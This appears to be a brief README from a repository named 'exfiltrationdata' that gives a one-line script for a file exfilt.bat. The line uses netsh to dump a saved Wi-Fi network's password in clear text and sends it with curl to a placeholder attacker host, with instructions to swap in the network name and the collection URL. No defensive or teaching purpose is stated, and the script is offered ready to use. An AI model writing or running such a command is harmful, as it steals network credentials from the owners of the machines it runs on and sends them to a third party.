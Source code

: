 # exfiltrationdata

Change file exfilt.bat 
$wif = (netsh wlan show profile name= "<name-wifi>" key=clear | findstr Contenue*) ; curl <<http ://attackerdotcom/>>?$wif 

And replace name-wifi and http link
